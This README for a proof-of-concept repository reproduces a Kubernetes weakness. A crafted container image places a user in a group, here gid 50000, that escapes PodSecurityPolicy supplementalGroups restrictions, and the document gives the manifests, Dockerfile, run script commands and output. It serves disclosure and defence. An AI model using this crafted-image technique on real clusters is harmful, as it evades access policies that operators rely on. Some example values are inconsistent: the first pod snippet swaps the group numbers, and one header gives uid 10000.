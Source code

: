 # Reproduction code: bypassing supplementalGroups by container image

## What is this?

This is a tiny reproduction code which docker image can bypass PodSecurityContext.SupplementalGroups. This behavior may break PSP(or other policy engine)'s expectation.

Suppose a PSP is enforced in a specific namespace:

```yaml
kind: PodSecurityPolicy
...
spec:
  runAsUser:
    ranges: { min: 1000, max: 1000 }
    rule: MustRunAs
  runAsGroup:
    ranges: { min: 1000, max: 1000 }
    rule: MustRunAs
  supplementalGroups:
    ranges: { min: 60000, max: 60000 }
    rule: MustRunAs
```

User can create a pod that is allowed by the PSP. But it can bypass `supplementalGroups` setting by crafting container image. See the next chapter for details.

```yaml
kind: Pod
...
spec:
  # the securityContext satisfies the above PSP
  securityContext:
    runAsUser: 1000
    runAsGroup: 1000
    supplementalGroups: [50000]
  containers:
  # However, if uid=1000 belongs to gid=60000 in the image,
  # the actual group of the process is groups=50000,60000 (bypassed)
  # although PSP enforces supplementalGroups=60000,
  - image: crafted 
...
```

## How to reproduce

### requirements

- docker
- kind
- kubectl

### Run

```shell
$ git clone -b reproduce-bypass-supplementalgroups https://github.com/pfnet-research/strict-supplementalgroups-container-runtime.git reproduce-bypass-supplementalgroups
$ cd reproduce-bypass-supplementalgroups
```

```
# this takes a several minutes.

# run with containerd
$ ./run.sh 

# run with cri-o
$ MODE=cri-o ./run.sh
```

## Result

```
$ ./run.sh
reproducing bypass supplementalGroups by docker image...

===========================================================================
versions
===========================================================================
kind version
kind v0.15.0 go1.19 darwin/arm64

containerd version
containerd github.com/containerd/containerd v1.6.8 9cd3357b7fd7218e4aec3eae239db1f68a5a6ec6

kubectl version
Client Version: v1.24.6
Kustomize Version: v4.5.4
Server Version: v1.25.2

OS version
$ cat /etc/os-release
PRETTY_NAME="Ubuntu 22.04.1 LTS"
NAME="Ubuntu"
VERSION_ID="22.04"
VERSION="22.04.1 LTS (Jammy Jellyfish)"
VERSION_CODENAME=jammy
ID=ubuntu
ID_LIKE=debian
HOME_URL="https://www.ubuntu.com/"
SUPPORT_URL="https://help.ubuntu.com/"
BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
UBUNTU_CODENAME=jammy
$ uname -a
Linux reproduce-bypass-supplementalgroups-control-plane 5.10.104-linuxkit #1 SMP PREEMPT Thu Mar 17 17:05:54 UTC 2022 aarch64 aarch64 aarch64 GNU/Linux

===========================================================================
bypass-supplementalgroups-pod manifest
  supplementalGroups: [60000]
===========================================================================
apiVersion: v1
kind: Pod
metadata:
  name: bypass-supplementalgroups-pod
spec:
  # please assume the securityContext fields are restricted by PSP
  securityContext:
    runAsUser: 1000 # alice's uid
    runAsGroup: 1000 # alice's gid
    supplementalGroups: [60000]
  restartPolicy: Never
  containers:
  - image: bypass-supplementalgroups-image
    name: main
    command: ["bash", "-c", "id; true"]
    imagePullPolicy: Never

===========================================================================
Dockerfile of bypass-supplementalgroups-image
  alice(uid=10000) belongs to bypassed-group(gid=50000)
===========================================================================
FROM ubuntu:22.04
RUN groupadd -g 50000 bypassed-group \
    && useradd -m -u 1000 alice \
    && gpasswd -a alice bypassed-group

===========================================================================
Actuall groups of bypass-supplementalgroups-pod's are bypassed supplementalGroups
  alice(uid=1000) can belong to both 
  - 50000(bypassed: NOT IN supplementalGroups, but in container image
  - 60000(in supplementalGroups)
===========================================================================
uid=1000(alice) gid=1000(alice) groups=1000(alice),50000(bypassed-group),60000
```

## Cleanup

```
kind delete cluster --name=reproduce-bypass-supplementalgroups
```
